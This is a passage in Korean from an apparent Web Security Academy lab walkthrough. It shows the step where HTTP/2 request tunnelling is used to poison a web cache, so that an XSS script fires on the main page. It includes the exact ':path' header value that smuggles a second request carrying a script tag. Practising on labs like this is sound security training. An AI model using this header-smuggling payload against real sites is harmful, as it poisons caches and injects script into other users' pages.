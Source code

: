 ![xss with tunneling](20.png)


![xss alert](21.png)


**Step 6) 메인 페이지 공격**
래퍼 요청의 경로를 ‘/’ 으로 수정하여 사용자가 메인 페이지(/) 접속 시에도 공격자의 스크립트가 동작하도록 웹 캐시를 Posioning 시킵니다.

아래와 같이 헤더를 입력하여 전송하면 메인 페이지에 접속 시 XSS 공격 스크립트가 동작합니다.

Header name
```
:path
```
Header value
```
/ HTTP/1.1
Host: ac9b1f6d1fcb908bc1369d4a00060033.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script>vvvvvvvvvvvvvvvvvv... HTTP/2\r\n
foo: x
```